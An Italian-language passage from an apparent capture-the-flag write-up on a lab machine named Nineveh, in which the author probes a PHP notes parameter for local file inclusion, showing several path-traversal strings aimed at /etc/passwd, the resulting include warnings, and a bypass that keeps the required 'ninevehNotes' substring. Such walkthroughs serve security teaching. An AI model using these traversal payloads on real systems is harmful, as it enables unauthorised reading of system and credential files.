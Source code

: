 
All'indirizzo http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt abbiamo questa nota:

```bash
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

Niente di tutto ciò ha molto senso a questo punto. Menzionano una cartella segreta. Forse lo troveremo durante l'enumerazione della porta 443. Una cosa da notare è che l'URL che genera la pagina sembra un percorso di file.

`http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt`

Quando vediamo un percorso di file, la prima cosa che bisognerebbe provare è un LFI. Ho provato e non ha funzionato esattamente. Quando provo la seguente stringa

```
../../../../../../../etc/passwd
```

Ricevo un messaggio "Nessuna nota selezionata". Tuttavia, quando provo la seguente stringa

```
files/ninevehNotes/../../../../etc/passwd
```

Ricevo un messaggio di avviso.

```
Warning:  include(files/ninevehNotes/../../../../etc/passwd): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31



Warning:  include(): Failed opening 'files/ninevehNotes/../../../../etc/passwd' for inclusion (include_path='.:/usr/share/php') in /var/www/html/department/manage.php on line 31

```

Se rimuovo "ninevehNotes" dall'URL

```
files/../../../../etc/passwd
```

Sono tornato al messaggio "Nessuna nota selezionata". Questo mi porta a credere che sia vulnerabile a LFI, tuttavia, c'è un controllo sul backend che cerca la stringa "ninevehNotes" poiché la mia query non funziona senza di essa.
Secondo l'errore, siamo nella directory /www/html/department/, quindi dobbiamo andare tre directory sopra. Proviamo con questa stringa.

```
[http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../etc/passwd]
```
